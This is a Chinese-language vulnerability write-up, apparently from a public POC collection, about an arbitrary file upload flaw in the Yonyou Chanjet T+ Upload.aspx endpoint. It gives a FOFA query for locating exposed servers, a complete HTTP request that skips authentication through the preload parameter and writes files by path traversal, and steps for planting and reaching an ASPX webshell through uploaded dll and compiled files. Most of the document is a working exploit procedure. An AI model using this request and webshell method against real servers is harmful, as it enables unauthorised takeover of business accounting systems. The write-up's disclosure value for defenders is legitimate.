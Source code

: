 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

```
用友 畅捷通T+
```

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![1](./images/202209131041324.png)

存在漏洞的接口为`/tplus/SM/SetupAccount/Upload.aspx`, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![2](./images/202209131041333.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![3](./images/202209131041137.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![6](./images/202209131042534.png)

![4](./images/202209131042543.png)

![5](./images/202209131042554.png)

再访问写入的Webshell进行连接

```
/tplus/shell.aspx?preload=1	
```